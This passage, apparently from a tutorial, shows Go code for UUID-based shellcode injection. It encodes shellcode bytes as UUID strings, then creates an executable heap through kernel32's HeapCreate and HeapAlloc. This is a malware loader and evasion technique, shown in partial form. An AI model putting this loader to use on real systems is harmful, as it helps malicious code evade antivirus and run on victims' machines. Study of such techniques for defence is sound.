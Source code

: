 ```go

  buf = make([]byte, 2)
  binary.LittleEndian.PutUint16(buf, binary.BigEndian.Uint16(shellcode[i+4:i+6]))
  uuidBytes = append(uuidBytes, buf...)

  buf = make([]byte, 2)
  binary.LittleEndian.PutUint16(buf, binary.BigEndian.Uint16(shellcode[i+6:i+8]))
  uuidBytes = append(uuidBytes, buf...)

  uuidBytes = append(uuidBytes, shellcode[i+8:i+16]...)

  // Use official Google package to convert bytes to uuid
  u, err := uuid.FromBytes(uuidBytes)
  if err != nil {
    log.Fatal(fmt.Errorf("there was an error converting bytes into a UUID:\n%s", err))
  }

  uuids = append(uuids, u.String())
}

...
```

Once we have converted the shellcode to UUIDs we start creating a ***heap*** and allocating memory:

```go
...

// Import DLL
kernel32 := windows.NewLazyDLL("kernel32")

// Get functions from kernel32.dll
HeapCreate := kernel32.NewProc("HeapCreate")
HeapAlloc := kernel32.NewProc("HeapAlloc")

// Create heap
heapAddr, _, err := HeapCreate.Call(
  0x00040000,
  0,
  0,
)

if heapAddr == 0 { // Handle error
  log.Fatal(err)
}

// Allocate heap memory
addr, _, err := HeapAlloc.Call(
  heapAddr,
  0,
  0x00100000,
)

if addr == 0 { // Handle error
  log.Fatal(err)
}

...
```
